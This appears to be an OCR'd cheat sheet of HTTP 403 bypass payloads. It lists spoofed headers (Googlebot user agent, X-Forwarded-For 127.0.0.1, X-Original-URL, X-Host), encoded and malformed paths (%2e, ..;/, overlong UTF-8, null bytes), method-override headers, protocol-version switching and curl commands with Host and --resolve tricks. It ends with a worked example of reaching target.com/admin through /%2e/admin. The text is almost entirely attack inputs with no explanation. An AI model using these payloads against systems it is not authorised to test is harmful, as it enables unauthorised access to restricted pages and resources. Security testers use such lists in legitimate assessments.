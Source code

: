 


```http
User-Agent: Googlebot/2.1 (+http://www.google.com/bot.html)
```

```http
Referer: <target>
```

```http
X-Forwarded-For: 127.0.0.1
X-Forwarded-Host: <host>
X-Original-URL: /
```

```http
Origin: <target>
```

```http
GET /%2e HTTP/1.1
GET /. HTTP/1.1
GET /./ HTTP/1.1
GET /..;/ HTTP/1.1
```

```http
HEAD / HTTP/1.1
```

```http
Host: <target>
X-Host: <trusted host>
```

```http
GET /%252e HTTP/1.1
GET /%2e%2e/ HTTP/1.1
GET /%2f HTTP/1.1
```


```http
GET /%c0%af HTTP/1.1
GET /%e0%80%af HTTP/1.1
```


```http
GET /%00 HTTP/1.1
GET /%00/ HTTP/1.1
```

```http
Content-Length: 0
Content-Length: 16
```

```http
X-Original-Method: GET
X-Http-Method-Override: GET
```

```http
GET /  HTTP/< change to 1.0 / 1.1 / 2 >
```

```http
GET /  HTTP/1.1
X-HTTP-Method: POST
```

```sh
curl -H "Host: another-allowed-host.com" --resolve "sub.target.com:443:XX.XX.XX.XX" <target>
```

```sh
curl -H "X-Forwarded-For: 1.1.1.1" <target>
```

```http
if 403 target is target.com/admin,
try target.com/%2e/admin
```




